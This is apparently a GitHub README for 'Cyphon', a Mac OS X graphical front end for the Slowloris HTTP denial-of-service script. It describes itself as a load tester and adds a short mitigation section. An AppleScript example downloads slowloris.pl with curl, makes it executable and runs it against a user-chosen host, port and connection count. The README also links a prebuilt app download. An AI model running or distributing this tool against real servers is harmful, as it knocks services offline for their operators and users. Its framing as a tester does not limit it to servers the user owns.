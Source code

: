 # Cyphon

A very simple yet powerful Low Bandwidth DoS (Denial of Service) tool written for Mac OS X (Friendly GUI) based on RSnake's Slow Loris.

You can use this tool to test for DoS vulnerabilities on your server or to experiment it's potential. 

# Built with
* Xcode - Cocoa, Applescript

# Code Example
```AppleScript
 do script "mkdir -p ~/Source && cd ~/Source/"
 do script "curl -O https://raw.githubusercontent.com/abila5h/Cyphon-DoS/master/slowloris.pl" in window 1
 do script "chmod +x slowloris.pl" in window 1
 do script "./slowloris.pl -dns  " & currentTextFieldText & " -port "  & portFieldText &  " -timeout " &timeoutFieldText & " -num "& packetFieldText in window 1
```


# Motivation

I decided to code an executable OSX version for Mac OS users as there are little server load testers out there for Mac OS.

SlowLoris seemed to be the best solution for a Mac DoS tool due to its ability of being a low bandwidth yet poisonous HTTP client by using a single IP address to send several partial HTTP requests.

[Wikipedia](https://en.wikipedia.org/wiki/Slowloris_(computer_security))

# Screenshots
![1](http://i.imgur.com/gIIcJnY.png)
![2](http://i.imgur.com/43L87Gw.png)
![3](http://i.imgur.com/km4R9V7.png)

# Download and demonstration

[Download](https://github.com/abila5h/Cyphon-DoS/blob/master/Cyphon.zip?raw=true) - Hold down the Control key when launching the Application.

[Youtube Video](https://www.youtube.com/watch?v=YRSbwgVHxxc&feature=youtu.be)


# Mitigating the attacks 

* Use DDoS mitigation services 

     [Project Shield](https://projectshield.withgoogle.com/public/) - Google's Free DDoS mitigation Service

* Increase the number of clients your server can host.

# Contributors 
* [Abilash](http://abilashmenon.com)
* [RSnake](http://twitter.com/RSnake)
